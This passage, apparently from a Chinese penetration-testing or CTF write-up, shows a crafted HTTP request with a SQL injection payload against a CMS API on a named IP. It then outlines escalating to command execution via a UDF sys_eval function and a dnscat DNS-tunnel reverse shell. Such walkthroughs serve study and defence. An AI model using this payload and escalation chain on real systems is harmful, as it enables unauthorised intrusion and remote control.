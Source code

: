 [![](assets/1708919820-4f51cdb717e9c5ddcf6d7f71c526c3bb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024830-a56be1ce-cb69-1.png)

于是乎我们就可以构造响应的攻击发包

```plain
POST /api/pages/cms/libraryText/list HTTP/1.1
Host: 39.100.183.36
X-SS-API-KEY: e7d41890-5742-48f0-9f3c-1393db541fc7
Content-Type: application/json
Content-Length: 131

{"siteId":1,"keyword":"' and 1=(select @@Version)--","groupId":0,"page":1,"perPage":24}`
```

但这里的数据库只有 DNS 流量出网这里 sql 的命令执行结果只能 curl 出来，并且我们只能执行 sql 语句，这里我们搭一下大头哥的便车（[https://github.com/LxxxSec/TunnelX/blob/master/udf-dnscat.py）要是我们想要顺利执行命令就需要加载一个udf.so并且建立一个可以执行命令sys\_eval函数](https://github.com/LxxxSec/TunnelX/blob/master/udf-dnscat.py%EF%BC%89%E8%A6%81%E6%98%AF%E6%88%91%E4%BB%AC%E6%83%B3%E8%A6%81%E9%A1%BA%E5%88%A9%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4%E5%B0%B1%E9%9C%80%E8%A6%81%E5%8A%A0%E8%BD%BD%E4%B8%80%E4%B8%AAudf.so%E5%B9%B6%E4%B8%94%E5%BB%BA%E7%AB%8B%E4%B8%80%E4%B8%AA%E5%8F%AF%E4%BB%A5%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4sys_eval%E5%87%BD%E6%95%B0)

哦我们可以利用上述脚本完成 DNS 隧道反弹 shell 的操作

首先 run 上述脚本会写入 udf.so 创建 sys\_eval 函数并且写入 dnscat 工具，dnscat 工具可以实现利用 DNS 隧道反弹 shell，之后在自己的 vps 上添加云 dns 解析域名，最好是没有正在使用的域名，需要分别设置一个 A 记录和 NS 记录
